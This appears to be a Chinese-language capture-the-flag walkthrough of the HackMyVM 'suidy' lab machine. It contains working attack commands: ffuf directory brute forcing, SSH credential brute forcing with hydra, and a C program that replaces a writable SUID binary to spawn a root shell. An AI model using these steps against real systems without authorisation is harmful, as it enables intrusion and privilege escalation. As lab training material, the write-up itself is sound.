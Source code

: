 ```yaml
---
{"dg-publish":true,"tags":["HMV","ffuf","SUID提权","hydra"],"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/5.suidy/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.847+08:00","updated":"2024-11-25T01:05:23.012+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/5.suidy#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/5.suidy#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/5.suidy#2.1. 目录扫描\|2.1. 目录扫描]]
- [[24-渗透/HMV/5.suidy#3. 爆破文件\|3. 爆破文件]]
- [[24-渗透/HMV/5.suidy#4. ssh连接\|4. ssh连接]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=suidy
```



```
作者：sml
```


```
难度：⭐️⭐️⭐️⭐️⭐️
```



```
知识点：ffuf  hydra  SUID替换提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.7
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B1:28:F4 (Oracle VirtualBox virtual NIC)
```
### 2.1. 目录扫描

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.001.png)

没什么东西，只有一个robots.txt

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.002.png)

看下网页源码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.003.png)

看下rotbots.txt

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.004.png)

翻到最下面可以看到有一个目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.005.png)

访问目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.006.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.007.png)

那就是要我们爆破目录，获取到这个.txt文件

下载seclist字典https://github.com/danielmiessler/SecLists

## 3. 爆破文件

利用fuff工具进行爆破

```Bash
ffuf -u http://192.168.9.7/shehatesme/FUZZ.txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
这里爆破出了好多结果

加一个-od参数 输出到result目录

```Bash
ffuf -u http://192.168.9.7/shehatesme/FUZZ.txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -od result
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.008.png)

看一下输出的文件内容格式

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.009.png)

下面这个就是账户密码

我们利用正则表达式将其提取出来

```Bash
tail -q -n 1 \* | sort | uniq | tee yhm.txt
```
然后把斜杠替换成:

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.010.png)

```Bash
hydra爆破
hydra -C ssh.txt  192.168.9.7 ssh
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.011.png)

## 4. ssh连接

```Bash
ssh theuser@192.168.9.7
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.012.png)

\3. SUID替换提权

```Bash
theuser@suidy:/home/suidy$ find / -perm -4000 2>/dev/null
/home/suidy/suidyyyyy
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```
这里有一个suidyyyy 可执行文件

看下这个文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.013.png)

这里说明我们当前用户theuser对这个文件是有读写权限的。而且这个文件被设置了suid 与sgid

那我们将这个文件进行替换即可利用SUID执行任意文件

我们新建一个 power.c

```Bash
#include <stdio.h>
int main() {
        setuid(0);           
        setgid(0);  
        system("/bin/bash -p");
        }
```


```Bash
gcc  power.c -o  suidyyyyy 编译
cp suidyyyyy /home/suidy/suidyyyyy 复制替换
./suidyyyyy 执行提权
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.014.png)


